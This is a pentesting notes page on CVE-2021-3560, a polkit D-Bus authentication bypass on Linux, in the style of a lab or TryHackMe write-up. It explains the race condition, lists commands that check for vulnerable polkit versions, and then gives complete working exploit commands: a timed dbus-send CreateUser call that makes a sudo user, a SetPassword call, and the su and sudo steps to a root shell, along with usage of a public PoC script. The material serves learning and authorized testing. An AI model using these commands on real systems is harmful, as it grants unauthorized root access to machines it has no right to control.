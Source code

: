 ```yaml
---
description: CVE-2021-3560
---
```


# D-Bus Authentication Bypass

## Theory

The vulnerability can be boiled down to these steps:

1. The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.
2. The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID.
3. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.
4. The dbus-daemon can't find the message ID because we killed it in step two. It handles the error by responding with an error code.
5. Polkit mishandles the error and substitutes in 0 for the user ID -- i.e. the root account of the machine.\

6. Thinking that the root user requested the action, polkit allows the request to go through unchallenged.

In short, by destroying the message ID before the dbus-daemon has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility into thinking that the request was made by the all-powerful root user.  - [TryHackMe](https://app.gitbook.com/s/hhJPQlmTdlPBQjXz6mN2/the-formal-stuff/requesting-time-off)

See the full vulnerability explain on the official [Kevin Backhouse article](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/).

## Practice

{% tabs %}
{% tab title="Enumeration" %}
Many of the most popular Linux distributions didn’t ship the vulnerable version until more recently. You may run Polkit exploit on the following targets:

* RHEL 8
* Fedora 21 (or later)
* Debian testing (“bullseye”)
* Ubuntu 20.04
* LTS ("Focal Fossa")

Others may also be vulnerables if you find that the installed polkit package is vulnerable. Affected versions are **0.113** (or later) for `rhel,centos,fedora` and **0.105-26** for `Debian/Ubuntu`

```bash
#Debian/Ubuntu
apt list --installed | grep policykit-1
dpkg -l | grep -i polkit|grep -i "0.105-26"

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit|grep -i '0.11[3-9]'
```

Additionally, This exploit works only on distributions that have installed `accountsservice` and `gnome-control-center`

```bash
#Debian/Ubuntu
dpkg -l  | grep -i 'accountsservice'
dpkg -l  | grep -i 'gnome-control-center'

#RHEL/CentOs/Fedora
rpm -qa  | grep -i 'accountsservice'
rpm -qa  | grep -i 'gnome-control-center'
```

&#x20;
{% endtab %}

{% tab title="Manual Exploit" %}
First, send a dbus message to create a new user

<pre class="language-bash"><code class="lang-bash"># string:pwned: The new user named "pwned".
# string:"Account Desc": The description of the new user.
# int32:1: sudo group
<strong>$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:pwned string:"Account Desc" int32:1 &#x26; sleep 0.005s; kill $!
</strong><strong>
</strong><strong>#Check if it worked
</strong>$ id pwned
uid=1000(pwned) gid=1000(pwned) groups=1000(pwned),27(sudo)
</code></pre>

Second, generate password and set it with a dbus message&#x20;

```bash
# Generate SHA512 password (-6)
openssl passwd -6 password123

#Dbus message
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'<password_hash>' string:'Ask the tester' & sleep 0.005s; kill $!
```

Third, we can login into this new account and spawn a privileged shell

```bash
#Switch
user$ su - pwned

#Spawn root shell
pwned$ sudo su root
```
{% endtab %}

{% tab title="Auto Exploit" %}
To automate this processus, we can use [this exploit](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) made by Secnigma.

```bash
# Add user with creds secnigma:secnigmaftw
./poc.sh

# Add your own user
./poc.sh -u=MyUser -p=MyPassword
```

{% hint style="danger" %}
Do not run this script in graphical login
{% endhint %}
{% endtab %}
{% endtabs %}



## Ressource

{% embed url="https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/polkit-privilege-escalation/#cve-2021-3560" %}

{% embed url="https://tryhackme.com/room/polkit" %}
